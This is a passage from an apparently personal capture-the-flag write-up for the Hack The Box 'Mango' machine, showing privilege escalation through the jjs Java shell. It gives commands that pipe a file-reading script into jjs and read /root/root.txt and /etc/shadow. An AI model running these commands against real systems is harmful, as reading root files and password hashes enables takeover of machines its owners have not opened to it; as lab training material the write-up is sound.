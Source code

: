 ```
echo 'var BufferedReader = Java.type("java.io.BufferedReader");
var FileReader = Java.type("java.io.FileReader");
var br = new BufferedReader(new FileReader("file_to_read"));
while ((line = br.readLine()) != null) { print(line); }' | jjs
```
```terminal
$ cd /usr/lib/jvm/java-11-openjdk-amd64/bin/
$ jjs
jjs> var BufferedReader = Java.type("java.io.BufferedReader");
jjs> var FileReader = Java.type("java.io.FileReader");
jjs> var br = new BufferedReader(new FileReader("/root/root.txt"));
jjs> while ((line = br.readLine()) != null) { print(line); }
```

![Desktop View]({{ "/assets/img/mango/HTB-Images-Mango-jjsflag.png" | relative_url }})

We can too read the shadow file to confirm the privilege escalation from this method.

```terminal
jjs> var BufferedReader = Java.type("java.io.BufferedReader");
jjs> var FileReader = Java.type("java.io.FileReader");
jjs> var br = new BufferedReader(new FileReader("/etc/shadow"));
jjs> while ((line = br.readLine()) != null) { print(line); }
```

![Desktop View]({{ "/assets/img/mango/HTB-Images-Mango-jjsreadshadowfile.png" | relative_url }})

So we can go much further in the control of our target.

***

## **<center>Trophy</center>**

> **It does not matter how slowly you go as long as you do not stop.**
>
> Confucius
